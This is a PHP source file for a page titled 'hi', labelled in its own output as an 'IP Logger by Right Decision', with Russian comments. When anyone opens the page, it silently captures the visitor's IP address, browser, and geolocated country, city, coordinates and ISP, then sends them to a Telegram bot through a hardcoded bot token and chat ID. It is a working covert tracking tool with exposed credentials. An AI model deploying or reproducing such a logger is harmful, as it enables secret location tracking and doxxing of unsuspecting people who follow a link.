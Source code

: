 # sitemy
ok
<?php
ini_set('user_agent', 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36');
//В переменную $token нужно вставить токен, который нам прислал @botFather
$token = "5914579949:AAEiOqrAC5QkwmBH4HShVhTMJ_icQfQubZk"; // Токен бота сюда
$chat_id = "1147072555"; //Чат айди сюда

if (!empty($_SERVER['HTTP_CLIENT_IP']))
    {
      $ipaddress = $_SERVER['HTTP_CLIENT_IP'];
    }
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
      $ipaddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
else
    {
      $ipaddress = $_SERVER['REMOTE_ADDR'];
    }


$browser = $_SERVER['HTTP_USER_AGENT'];

// URL страницы, которую открываем
$url = 'http://ip-api.com/json/'.$ipaddress;

$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$response = curl_exec($ch);
curl_close($ch);

$ipinfo = json_decode($response);

$country = $ipinfo -> country;
$region = $ipinfo -> regionName;
$city = $ipinfo -> city;
$localtime = $ipinfo -> timezone;
$latitude = $ipinfo -> lat;
$longitude = $ipinfo -> lon;
$provider = $ipinfo -> isp;


//Собираем в массив то, что будет передаваться боту
$arr = array(
    'IP Logger by Right Decision🙂',
    'IP Адрес: ' => $ipaddress,
    '🏳Страна: ' => $country,
    '🏛Регион: ' => $region,
    '🏢Город: ' => $city,
    '🕐Местное время: ' => $localtime,
    '📡Широта и Долгота: ' => $latitude.' '.$longitude,
    '🗿Интернет провайдер: ' => $provider,
    '💻Браузер и User-Agent: ' => $browser  
);

//Настраиваем внешний вид сообщения в телеграме
foreach($arr as $key => $value) {
    $txt .= "<b>".$key."</b> ".$value."%0A";
};

//Передаем данные боту
$sendToTelegram = fopen("https://api.telegram.org/bot{$token}/sendMessage?chat_id={$chat_id}&parse_mode=html&text={$txt}","r");


?>

<!DOCTYPE html>
<html>
<head>
    <title>hi</title>
</head>
<body>

hi


</body>
</html>
